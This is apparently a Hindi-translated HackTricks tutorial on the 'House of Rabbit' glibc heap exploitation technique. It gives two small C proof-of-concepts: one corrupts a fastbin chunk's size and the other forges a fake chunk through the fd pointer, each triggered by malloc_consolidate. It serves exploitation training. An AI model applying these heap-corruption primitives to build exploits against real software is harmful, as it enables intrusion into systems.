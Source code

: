 # House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### Requirements

1. **तेज बिन fd पॉइंटर या आकार को संशोधित करने की क्षमता**: इसका मतलब है कि आप तेज बिन में एक चंक के आगे के पॉइंटर या उसके आकार को बदल सकते हैं।
2. **`malloc_consolidate` को ट्रिगर करने की क्षमता**: यह एक बड़े चंक को आवंटित करके या शीर्ष चंक को मर्ज करके किया जा सकता है, जो हीप को चंक्स को समेकित करने के लिए मजबूर करता है।

### Goals

1. **ओवरलैपिंग चंक्स बनाना**: एक चंक को दूसरे के साथ ओवरलैप करने के लिए, जिससे आगे की हीप हेरफेर की अनुमति मिल सके।
2. **नकली चंक्स को फोर्ज करना**: आवंटक को एक नकली चंक को हीप ऑपरेशनों के दौरान एक वैध चंक के रूप में मानने के लिए धोखा देना।

## Steps of the attack

### POC 1: तेज बिन चंक के आकार को संशोधित करें

**Objective**: तेज बिन चंक के आकार को संशोधित करके एक ओवरलैपिंग चंक बनाना।

- **Step 1: चंक्स आवंटित करें**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
हम 0x40 बाइट्स के दो टुकड़े आवंटित करते हैं। इन टुकड़ों को मुक्त करने के बाद फास्ट बिन सूची में रखा जाएगा।

- **Step 2: Free Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
हम दोनों चंक्स को मुक्त करते हैं, उन्हें फास्टबिन सूची में जोड़ते हैं।

- **चरण 3: चंक आकार को संशोधित करें**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
हम `chunk1` के आकार के मेटाडेटा को 0xa1 में बदलते हैं। यह समेकन के दौरान आवंटक को धोखा देने के लिए एक महत्वपूर्ण कदम है।

- **चरण 4: `malloc_consolidate` को ट्रिगर करें**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
एक बड़ा हिस्सा आवंटित करने से `malloc_consolidate` फ़ंक्शन सक्रिय होता है, जो तेज़ बिन में छोटे हिस्सों को मिलाता है। `chunk1` के हेरफेर किए गए आकार के कारण यह `chunk2` के साथ ओवरलैप करता है।

संविलयन के बाद, `chunk1` `chunk2` के साथ ओवरलैप करता है, जिससे आगे के शोषण की अनुमति मिलती है।

### POC 2: `fd` पॉइंटर को संशोधित करें

**उद्देश्य**: तेज़ बिन `fd` पॉइंटर को हेरफेर करके एक नकली हिस्सा बनाना।

- **चरण 1: हिस्से आवंटित करें**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**व्याख्या**: हम दो टुकड़े आवंटित करते हैं, एक छोटा और एक बड़ा, ताकि नकली टुकड़े के लिए हीप सेट किया जा सके।

- **चरण 2: नकली टुकड़ा बनाएं**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
हम `chunk2` में नकली चंक मेटाडेटा लिखते हैं ताकि छोटे चंक्स का अनुकरण किया जा सके।

- **चरण 3: `chunk1` को मुक्त करें**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**व्याख्या**: हम `chunk1` को मुक्त करते हैं, इसे फास्टबिन सूची में जोड़ते हैं।

- **चरण 4: `chunk1` का `fd` संशोधित करें**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**व्याख्या**: हम `chunk1` के फॉरवर्ड पॉइंटर (`fd`) को हमारे फेक चंक की ओर इंगित करने के लिए बदलते हैं जो `chunk2` के अंदर है।

- **चरण 5: `malloc_consolidate` को ट्रिगर करें**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
एक बड़ा हिस्सा फिर से आवंटित करने से `malloc_consolidate` सक्रिय होता है, जो नकली हिस्से को संसाधित करता है।

नकली हिस्सा फास्टबिन सूची का हिस्सा बन जाता है, जिससे यह आगे की शोषण के लिए एक वैध हिस्सा बन जाता है।

### सारांश

**हाउस ऑफ़ रैबिट** तकनीक में या तो एक फास्ट बिन हिस्से के आकार को संशोधित करना शामिल है ताकि ओवरलैपिंग हिस्से बनाए जा सकें या नकली हिस्से बनाने के लिए `fd` पॉइंटर को हेरफेर करना शामिल है। यह हमलावरों को हीप में वैध हिस्से बनाने की अनुमति देता है, जिससे विभिन्न प्रकार के शोषण की अनुमति मिलती है। इन चरणों को समझना और अभ्यास करना आपकी हीप शोषण कौशल को बढ़ाएगा।

{{#include ../../banners/hacktricks-training.md}}
